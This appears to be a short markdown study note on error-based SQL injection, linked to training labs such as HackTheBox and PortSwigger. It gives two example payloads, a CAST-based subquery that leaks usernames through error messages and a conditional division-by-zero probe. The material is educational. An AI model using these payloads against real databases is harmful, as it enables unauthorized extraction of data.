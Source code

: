 # Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sqli_visible_errors](../../../../../_badges/ps-lab/sqli_visible_errors.svg)](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

<div class="row row-cols-lg-2"><div>

Error messages are sometimes enabled. They make it easier to exploit another type of SQL injection, such as Union-based SQLi.

If no other easiest SQLi attack is possible, we may use error messages to dump the database.

```sql!
-- Error: Incorrect INTEGER value: 'admin'
Select 1=CAST((SELECT username FROM membres LIMIT 1) AS int)
```
```sql!
-- Error: Division by zero
Select [...] where 1=(case when (1=1) then 1/0 else 0 end)
```
</div><div>
</div></div>